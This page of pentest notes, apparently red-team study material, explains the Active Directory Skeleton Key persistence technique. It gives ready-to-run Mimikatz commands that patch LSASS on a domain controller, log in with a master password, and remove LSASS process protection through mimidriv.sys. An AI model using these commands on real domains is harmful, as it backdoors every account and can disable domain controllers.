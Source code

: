 # Skeleton Key

Skeleton key is a persistence technique where it is possible to inject malware to the Domain Controller LSASS process so that it allows access as any user with a single password.

Very Noisy

{% hint style="danger" %}
Can break DC so NOT recommended in actual assessments
{% endhint %}

## Important to know:

* Require Domain Admin privileges
* Skeleton Key is not persistent across reboots
* Skeleton Key is not opsec safe and is also known to cause issues with AD CS

## Inject a skeleton key

```powershell
# needs DA privs
# password would be "mimikatz"
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' 
```

## Access any machine

```powershell
Enter-PSSession -Computername dcorp-dc -credential dcorp\Administrator
#password would be 'mimikatz' 
```

### LSASS running as a protected process

In case Lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC

```
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```

more detailed

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/persistence/skeleton-key-attack" %}
